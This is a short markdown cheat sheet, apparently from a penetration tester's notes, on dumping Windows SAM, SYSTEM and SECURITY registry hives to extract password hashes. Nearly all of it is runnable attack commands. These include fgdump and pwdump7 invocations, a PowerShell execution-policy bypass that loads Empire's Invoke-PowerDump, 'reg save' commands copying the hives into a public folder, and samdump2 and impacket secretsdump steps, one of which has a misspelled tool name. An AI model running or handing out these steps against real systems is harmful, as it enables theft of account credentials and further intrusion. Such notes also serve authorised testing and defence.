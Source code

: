 # dump SAM SYSTEM

## SAM hash Format

```bash
uid : rid : LM_Hash : NTLM_Hash
```

## [foofus.net/fgdump](http://foofus.net/goons/fizzgig/fgdump/fgdump-usage.htm) | [tarasco.org/pwdump7](https://www.tarasco.org/security/pwdump\_7/)

```bash
START /B [fgdump.exe | pwdump7.exe]
```

## [EmpireProject/Empire/dump.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1)

```bash
powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"
```

## manually

```bash
# actual location
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SECURITY
C:\Windows\System32\config\SYSTEM
# other locations
C:\Windows\System32\config\RegBack
C:\Windows\Repair

reg save hklm\sam c:\Users\Public\ksam
reg save hklm\system c:\Users\Public\ksystem
reg save hklm\security c:\Users\Public\ksecurity

# on kali
samdump2 ksystem ksam
impacket-secrectsdump -sam ksam -security ksecurity -system ksystem LOCAL
```
